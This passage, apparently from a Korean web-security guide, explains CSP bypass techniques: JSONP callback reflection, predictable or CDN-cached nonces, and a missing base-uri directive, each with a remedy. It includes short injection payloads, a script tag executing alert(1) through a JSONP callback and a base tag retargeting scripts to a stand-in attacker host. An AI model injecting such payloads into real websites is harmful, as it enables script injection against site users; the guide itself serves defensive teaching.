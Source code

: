 ## 우회 예시
```
<script src="https://trusted.example/api?callback=alert(1)"></script>
```
- trusted.example이 콜백을 그대로 반영하면 `alert(1)`이 실행됨.

## 대응
- 가능한 경우 JSONP 사용을 금지하고 CORS로 전환.
- JSONP를 제공해야 한다면 `callback` 파라미터는 엄격히 화이트리스트(정규식: 알파넘·언더스코어·점·대괄호 등)로 검증.
- CSP 정책에서 서드파티 API가 허용되어야만 사용하도록 최소 권한 설정.

---

# 3. nonce 예측·캐시 문제
## 개념
`nonce` 기반 허용은 인라인 스크립트를 안전하게 허용할 수 있게 해주지만, **nonce가 예측 가능하거나 캐싱되어 재사용되면** 보호 효과가 무력화됩니다.

## 위험 사례
- 서버가 **고정된 nonce**를 쓰거나, 비충분한 랜덤 소스(CSPRNG가 아닌 rand/time 기반) 사용.
- Nginx+php-fpm 설정에서 `PATH_INFO`나 잘못된 location 처리로 인해 `.php`가 포함된 경로에서 HTML이 정적 파일처럼 캐시되어 nonce가 CDN/프록시에 의해 캐시되는 경우.

## 공격 시나리오
- CDN이 `.css`나 기타 정적 리소트만 캐시하도록 구성되어 있더라도, 잘못된 설정으로 동적 페이지가 캐시되어 nonce가 동일하게 재배포될 수 있음. 공격자는 캐시된 페이지에서 nonce를 획득해 악성 인라인 스크립트를 주입 가능.

## 대응
- **매 요청마다 고유한 nonce**를 CSPRNG로 생성하고, 절대 재사용 금지.
- CDN/프록시에서 HTML 응답이 캐시되지 않도록 `Cache-Control: no-store, no-cache, must-revalidate` 등을 설정.
- Nginx 설정 시 `location ~ \.php$` 형태로 끝맺는 블록을 사용하고, `fastcgi_split_path_info` 이용 시 `try_files`로 스크립트 존재 여부를 확인하여 PATH_INFO 취급을 주의.
- nonce는 HTTP 헤더로 전달하거나 templating에서 동적으로 삽입하고, CDN 캐싱 정책과 연계해 테스트.

---

# 4. base-uri 미지정 (Base tag 재작성 / Nonce Retargeting)
## 개념
`<base>` 태그는 문서 내 상대 URL 해석의 기준을 바꿉니다. 공격자가 DOM 삽입 지점을 통해 `<base href="https://attacker/">`를 추가하면, 이후의 상대 URL들은 공격자 도메인을 가리키게 되어 리소스(스크립트 등)를 우회 로드할 수 있습니다. 이를 **Nonce Retargeting** 공격이라고도 부릅니다.

## 우회 예시
```html
<base href="https://malice.test/">
<script src="/jquery.js" nonce="NONCE"></script>
<!-- 실제 로드: https://malice.test/jquery.js -->
```
